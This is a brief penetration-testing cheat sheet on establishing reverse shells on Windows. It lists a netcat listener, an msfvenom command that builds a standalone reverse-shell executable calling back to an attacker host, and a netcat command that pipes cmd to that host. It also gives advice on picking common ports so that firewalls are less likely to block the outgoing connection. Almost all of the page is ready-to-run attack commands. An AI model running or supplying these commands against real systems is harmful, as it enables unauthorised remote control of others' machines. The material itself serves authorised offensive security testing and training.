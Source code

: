 ```yaml
---
label: Reverse Shell
---
```


# Reverse Shell

Once an RCE-type vulnerability is detected, we are able to create a reverse shell. On windows, often the only option for various types of exploits is to use a single standalone executable file. Here you have some options for establishing reverse shell connection.

> **IMPORTANT**: When establishing reverse shells, remember to use common ports, e.g. 53, 80, 443. Then there is less chance that the outgoing connection will be blocked by the firewall.

Generators:

- [Revshells.com - shell generator](https://www.revshells.com/)

Listener on Linux:

```bash
rlwrap nc -lvnp $port
```

## Standalone binary

```bash
# Generate standalone reverse shell binary using Msfvenom
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=$lhost LPORT=$lport 

# Usage (Windows):
./shell.exe
```

## Netcat

Netcat executable for Windows ([link](https://github.com/int0x33/nc.exe/)):

```powershell
# Usage
nc.exe $lhost $lport -e cmd
```
